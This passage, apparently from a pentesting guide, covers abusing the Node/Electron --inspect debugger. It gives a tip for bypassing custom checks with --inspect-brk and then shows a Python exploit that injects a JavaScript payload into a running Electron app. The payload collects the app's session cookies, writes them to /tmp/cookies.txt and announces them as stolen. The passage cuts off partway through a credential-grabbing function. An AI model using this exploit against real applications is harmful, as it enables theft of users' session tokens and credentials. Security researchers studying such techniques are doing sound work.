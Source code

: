 In [**this blogpost**](https://hackerone.com/reports/1274695), this debugging is abused to make a headless chrome **download arbitrary files in arbitrary locations**.

> [!TIP]
> If an app has its custom way to check if env variables or params such as `--inspect` are set, you could try to **bypass** it in runtime using the arg `--inspect-brk` which will **stop the execution** at the beggining the app and execute a bypass (overwritting the args or the env variables of the current process for example).

The folllowing was an exploit that monitoring and executing the app with the param `--inspect-brk` it was possible to bypass the custom protection it had (overwritting the params of the process to remove `--inspect-brk`) and then injecting a JS payload to dump cookies and credentials from the app:

```python
import asyncio
import websockets
import json
import requests
import os
import psutil
from time import sleep

INSPECT_URL = None
CONT = 0
CONTEXT_ID = None
NAME = None
UNIQUE_ID = None

JS_PAYLOADS = """
var { webContents } = require('electron');
var fs = require('fs');

var wc = webContents.getAllWebContents()[0]


function writeToFile(filePath, content) {
    const data = typeof content === 'string' ? content : JSON.stringify(content, null, 2);

    fs.writeFile(filePath, data, (err) => {
        if (err) {
            console.error(`Error writing to file ${filePath}:`, err);
        } else {
            console.log(`File written successfully at ${filePath}`);
        }
    });
}

function get_cookies() {
    intervalIdCookies = setInterval(() => {
        console.log("Checking cookies...");
        wc.session.cookies.get({})
        .then((cookies) => {
            tokenCookie = cookies.find(cookie => cookie.name === "token");
            if (tokenCookie){
                writeToFile("/tmp/cookies.txt", cookies);
                clearInterval(intervalIdCookies);
                wc.executeJavaScript(`alert("Cookies stolen and written to /tmp/cookies.txt")`);
            }
        })
    }, 1000);
}

function get_creds() {
    in_location = false;
    intervalIdCreds = setInterval(() => {
```